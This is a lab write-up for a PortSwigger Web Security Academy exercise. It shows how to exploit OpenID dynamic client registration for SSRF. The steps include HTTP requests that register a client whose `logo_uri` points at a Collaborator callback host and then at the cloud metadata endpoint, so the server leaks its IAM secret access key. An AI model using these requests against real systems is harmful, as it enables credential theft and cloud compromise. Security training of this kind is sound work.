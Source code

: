 # SSRF via OpenID dynamic client registration

## Description

[This lab](https://portswigger.net/web-security/oauth/openid/lab-oauth-ssrf-via-openid-dynamic-client-registration) allows client applications to dynamically register themselves with the `OAuth` service via a dedicated registration endpoint. Some client-specific data is used in an unsafe way by the `OAuth` service, which exposes a potential vector for SSRF. 

## Reproduction and proof of concept

1. While proxying traffic through Burp, log in with `wiener:peter`. Browse to `https://YOUR-LAB-OAUTH-SERVER.web-security-academy.net/.well-known/openid-configuration` to access the configuration file. Notice that the client registration endpoint is located at `/reg`.

```text
https://oauth-0a6900b5048945d8c1ab1ffc02d8004e.oauth-server.net/.well-known/openid-configuration
```

![Oauth](/_static/images/oauth12.png)

2. In Burp Repeater, create a suitable `POST` request to register your own client application with the OAuth service. You must at least provide a `redirect_uris` array containing an arbitrary whitelist of callback URIs for your fake application. For example:

```text
POST /reg HTTP/1.1
Host: oauth-0a6900b5048945d8c1ab1ffc02d8004e.oauth-server.net
Content-Type: application/json

{
    "redirect_uris" : [
        "https://example.com"
    ]
}
```

3. Send the request. 

![Oauth](/_static/images/oauth13.png)

You have now successfully registered your own client application without requiring any authentication. The response contains various metadata associated with your new client application, including a new `client_id`.

4. Using Burp, audit the OAuth flow and notice that the **Authorize** page, where the user consents to the requested permissions, displays the client application's logo. This is fetched from `/client/CLIENT-ID/logo`. We know from the OpenID specification that client applications can provide the URL for their logo using the `logo_uri` property during dynamic registration. Send the `GET /client/CLIENT-ID/logo` request to Burp Repeater.
5. From the Burp menu, open the Burp Collaborator client and click **Copy to clipboard** to copy a Collaborator URL. Leave the Collaborator dialogue open for now.
6. In Repeater, go back to the `POST /reg` request that you created earlier. Add the `logo_uri` property and paste your Collaborator URL as its value. The final request should look something like this:

```text
POST /reg HTTP/1.1
Host: oauth-0a6900b5048945d8c1ab1ffc02d8004e.oauth-server.net
Content-Type: application/json

{
    "redirect_uris" : [
        "https://example.com"
    ],
    "logo_uri" : "https://ayc1v2jr1ayrplf516zakprhe8kz8pwe.oastify.com"
}
```

7. Send the request to register a new client application and copy the `client_id` from the response.

```text
"client_id":"RnZsZfMVpfPS3fvIwXoY6",
```

8. In Repeater, go to the `GET /client/CLIENT-ID/logo` request. Replace the `CLIENT-ID` in the path with the new one you just copied and send the request.

![Oauth](/_static/images/oauth14.png)

9. Go to the Burp Collaborator client dialogue and check for any new interactions. 

![Oauth](/_static/images/oauth15.png)

There is an HTTP interaction attempting to fetch your non-existent logo. This confirms that you can successfully use the `logo_uri` property to elicit requests from the OAuth server.
10. Go back to the `POST /reg` request in Repeater and replace the current `logo_uri` value with the target URL:

```text
"logo_uri" : "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/"
```

11. Send this request and copy the new `client_id` from the response.

```text
"client_id":"lswpWbRUl4rUzN4GYG8js",
```

12. Go back to the `GET /client/CLIENT-ID/logo` request and replace the `client_id` with the new one you just copied. Send this request. Observe that the response contains the sensitive metadata for the OAuth provider's cloud environment, including the secret access key.

![Oauth](/_static/images/oauth16.png)

13. Use the **Submit solution** button to submit the access key and solve the lab.

![Oauth](/_static/images/oauth17.png)

## Exploitability

An attacker will need to log in; and then craft an SSRF attack to access `http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/` and steal the secret access key for the `OAuth` provider's cloud environment.

_Note: To prevent the Academy platform being used to attack third parties, the firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, use Burp Collaborator's default public server._

